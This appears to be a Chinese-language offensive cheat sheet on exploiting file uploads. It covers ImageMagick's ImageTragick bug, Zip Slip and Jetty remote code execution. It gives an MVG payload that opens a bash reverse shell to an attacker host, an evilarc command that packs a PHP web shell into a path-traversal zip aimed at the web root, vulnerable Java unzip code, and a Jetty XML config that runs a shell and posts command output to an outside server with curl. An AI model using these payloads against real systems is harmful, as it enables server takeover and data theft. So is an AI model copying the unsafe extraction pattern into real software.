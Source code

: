 ## CVE - ImageMagick

如果后端使用 ImageMagick 调整用户图像大小/转换用户图像，尝试利用众所周知的漏洞，例如 ImageTragik

eg:

```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```

## ZIP Slip

http://snyk.io/research/zip-slip-vulnerability.

### tools

https://github.com/ptoomey3/evilarc

该工具允许我们在zip中添加目录遍历的字符，如果目标服务器解析zip文件,则可进行文件的覆盖，执行任意代码；

```
python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15
```

https://github.com/usdAG/slipit

由于java中没有对zip文件进行识别的高级库，因此java更加容易遭受到攻击，下面是一段易于受到攻击的代码

```java
   Enumeration<ZipEntry> entries = zip.getEntries();
   while (entries.hasMoreElements()) {
      ZipEntry e = entries.nextElement();
      File f = new File(destinationDir, e.getName());
      InputStream input = zip.getInputStream(e);
      IOUtils.copy(input, write(f));
   }
```

## Jetty RCE

```xml
<?xml version="1.0"?>
<!DOCTYPE Configure PUBLIC "-//Jetty//Configure//EN" "https://www.eclipse.org/jetty/configure_10_0.dtd">
<Configure class="org.eclipse.jetty.server.handler.ContextHandler">
    <Call class="java.lang.Runtime" name="getRuntime">
        <Call name="exec">
            <Arg>
                <Array type="String">
                    <Item>/bin/sh</Item>
                    <Item>-c</Item>
                    <Item>curl -F "r=`id`" http://yourServer:1337/</Item>
                </Array>
            </Arg>
        </Call>
    </Call>
</Configure>
```
